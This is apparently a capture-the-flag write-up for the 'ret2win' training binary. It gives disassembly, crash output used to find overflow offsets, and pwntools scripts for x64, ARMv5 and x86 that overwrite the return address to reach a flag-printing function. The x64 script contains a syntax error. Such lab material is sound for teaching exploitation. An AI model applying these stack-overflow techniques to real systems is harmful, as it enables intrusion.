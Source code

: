 # retwin

56 bytes of use input into 32 bytes of stack buffer using read()

## x64

using nm to check method names

```bash
$ nm ret2win|grep ' t '
00000000004005f0 t deregister_tm_clones
0000000000400660 t __do_global_dtors_aux
0000000000400690 t frame_dummy
00000000004006e8 t pwnme
0000000000400620 t register_tm_clones
0000000000400756 t ret2win
```

so there is a method called ret2w. if we use r2 to analyze this method

```bash
$ r2 ret2win
[0x004005b0]> aa
[x] Analyze all flags starting with sym. and entry0 (aa)
[0x004005b0]> s sym.ret2win
[0x00400756]> pdf
┌ 27: sym.ret2win ();
│   0x00400756      55             push rbp
│   0x00400757      4889e5         mov rbp, rsp
│   0x0040075a      bf26094000     mov edi, str.Well_done__Heres_your_flag: ; 0x400926 ; "Well done! Here's your flag:"
│   0x0040075f      e8ecfdffff     call sym.imp.puts           ; int puts(const char *s)
│   0x00400764      bf43094000     mov edi, str._bin_cat_flag.txt ; 0x400943 ; "/bin/cat flag.txt"
│   0x00400769      e8f2fdffff     call sym.imp.system         ; int system(const char *string)
│   0x0040076e      90             nop
│   0x0040076f      5d             pop rbp
└   0x00400770      c3             ret

```

so our goal is to achieve execution of this method. to confirm how many bytes are needed to cause an overflow

```bash
$ sudo dmesg -C
$ ./ret2win
$> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBB # 40A and 5B
$ sudo dmesg -t
ret2win[3560]: segfault at a4242424242 ip 00000a4242424242 sp 00007ffeb07e89e0 error 14 in libc-2.31.so[7ff398551000+25000]
Code: Unable to access opcode bytes at RIP 0xa4242424218.
```

*will typically need 40 bytes of garbage to reach the saved return address in the x64, 44 bytes for x86, and 36 bytes for ARMv5 and MIPS.*


the 5 B's overflow into the RIP which is why it segfaults since that address doesn't exist. given the target address is `0x00400756`

the payload will be `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA + 0x00400756`. in a pwntools script

```py
#!/usr/bin/env python3

from pwn import *

binary = ELF("./ret2win")
context.binary = binary
rop = ROP(binary)

p = process(binary.path))
p.recvuntil(b">")

rop.raw(b"A"*40)
rop.raw(0x00400756)
p.sendline(rop.chain())
p.recv()
p.recv()
print(p.recv())
```

`ROPE{a_placeholder_32byte_flag!}`


## ARMv5

r2

```bash
$ r2 ret2win_armv5
...
┌ 32: sym.ret2win ();
│   0x000105ec      push {fp, lr}
│   0x000105f0      add fp, sp, 4
│   0x000105f4      ldr r0, [str.Well_done__Heres_your_flag:]  ; [0x1060c:4]=0x107a0 str.Well_done__Heres_your_flag: ; "Well done! Here's your flag:"
│   0x000105f8      bl sym.imp.puts                            ; int puts(const char *s)
│                                                                      ; int puts("Well done! Here's your flag:")
│   0x000105fc      ldr r0, [str._bin_cat_flag.txt]            ; [0x10610:4]=0x107c0 str._bin_cat_flag.txt ; "/bin/cat flag.txt"
│   0x00010600      bl sym.imp.system                          ; int system(const char *string)
│                                                                      ; int system("/bin/cat flag.txt")
│   0x00010604      mov r0, r0                                 ; "/bin/cat flag.txt" str._bin_cat_flag.txt
└   0x00010608      pop {fp, pc}
```

we cant use gdb (gef) to debug since its ARMv5, so we gotta use pwntools

```bash
$ pwn debug --exec ret2win_armv5
# opened up a new window and starts debugging session within gef in that window
# program input is in original window
> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBB
```

The $pc is overflowed and is now `0x42424242` which same as x86 $(R|E)IP. Comparing this to the x64 $RIP which was `0x00000a4242424242` 16 in length, but ARM32 is half that. but nothing really needs to be done differently because pwntools handles different archs.

The target address is `0x000105ec`, so the pwntools script is:

```py
#!/usr/bin/env python3

from pwn import *

binary = ELF("./ret2win_armv5")
context.binary = binary
rop = ROP(binary)

p = process(binary.path)
p.recvuntil(b">")

rop.raw(b"A"*36)
rop.raw(0x000105ec)
p.sendline(rop.chain())
p.recv()
p.recv()
print(p.recv().decode("utf-8").strip("\n"))
```

yielding flag `ROPE{a_placeholder_32byte_flag!}`


## x86

using r2:

```bash
$ r2 ret2win32    
[0x08048430]> aa
[x] Analyze all flags starting with sym. and entry0 (aa)
[0x08048430]> s sym.ret2win
[0x0804862c]> pdf
┌ 41: sym.ret2win ();
│   0x0804862c      55             push ebp
│   0x0804862d      89e5           mov ebp, esp
│   0x0804862f      83ec08         sub esp, 8
│   0x08048632      83ec0c         sub esp, 0xc
│   0x08048635      68f6870408     push str.Well_done__Heres_your_flag: ; 0x80487f6 ; "Well done! Here's your flag:"
│   0x0804863a      e891fdffff     call sym.imp.puts           ; int puts(const char *s)
│   0x0804863f      83c410         add esp, 0x10
│   0x08048642      83ec0c         sub esp, 0xc
│   0x08048645      6813880408     push str._bin_cat_flag.txt  ; 0x8048813 ; "/bin/cat flag.txt"
│   0x0804864a      e891fdffff     call sym.imp.system         ; int system(const char *string)
│   0x0804864f      83c410         add esp, 0x10
│   0x08048652      90             nop
│   0x08048653      c9             leave
└   0x08048654      c3             ret
```

the target address is `0x0804862c`. the python script is:


```py
#!/usr/bin/env python3

from pwn import *

binary = ELF("./ret2win32")
context.binary = binary
rop = ROP(binary)

p = process(binary.path)
p.recvuntil(b">")

rop.raw(b"A"*44)
rop.raw(0x0804862c)
p.sendline(rop.chain())
p.recv()
p.recv()
print(p.recv().decode("utf-8").strip("\n"))
```

which yields flag `ROPE{a_placeholder_32byte_flag!}`.
